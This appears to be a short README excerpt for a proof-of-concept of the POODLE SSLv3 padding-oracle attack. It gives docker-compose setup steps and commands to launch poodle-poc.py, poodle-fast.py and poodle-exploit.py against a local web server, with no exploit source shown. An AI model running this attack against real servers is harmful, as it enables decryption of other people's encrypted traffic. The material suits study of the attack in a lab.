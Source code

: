 # Start python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash

# Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or 
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt

# Launch the attack
python3 poodle-poc.py


# Use poodle-exploit.py
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50